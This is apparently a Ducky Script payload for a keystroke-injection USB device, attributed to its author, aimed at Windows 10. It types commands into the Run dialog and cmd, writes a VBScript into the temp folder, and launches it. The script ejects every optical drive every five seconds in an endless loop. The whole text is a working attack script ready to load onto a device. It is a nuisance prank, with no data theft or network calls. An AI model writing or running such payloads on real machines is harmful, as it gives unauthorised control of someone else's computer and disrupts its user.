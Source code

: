 REM This is for Windows 10
DELAY 2000
GUI r
DELAY 300
STRING cmd
ENTER
DELAY 800
STRING del %tmp%\dvloptical.vbs
ENTER
DELAY 200
STRING cd %tmp% && copy con dvloptical.vbs
ENTER
STRING Set oWMP = CreateObject("WMPlayer.OCX.7")
ENTER
STRING Set colCDROMs = oWMP.cdromCollection
ENTER
STRING do
ENTER
STRING if colCDROMs.Count >= 1 then
ENTER
STRING For i = 0 to colCDROMs.Count -1
ENTER
STRING colCDROMs.Item(i).Eject
ENTER
STRING Next
ENTER
STRING For i = 0 to colCDROMs.Count -1
ENTER
STRING colCDROMs.Item(i).Eject
ENTER
STRING Next
ENTER
STRING End If
ENTER
STRING wscript.sleep 5000
ENTER
STRING loop
ENTER
DELAY 100
CTRL z
ENTER
STRING start dvloptical.vbs
ENTER
STRING exit
ENTER
REM Written by Emil Simec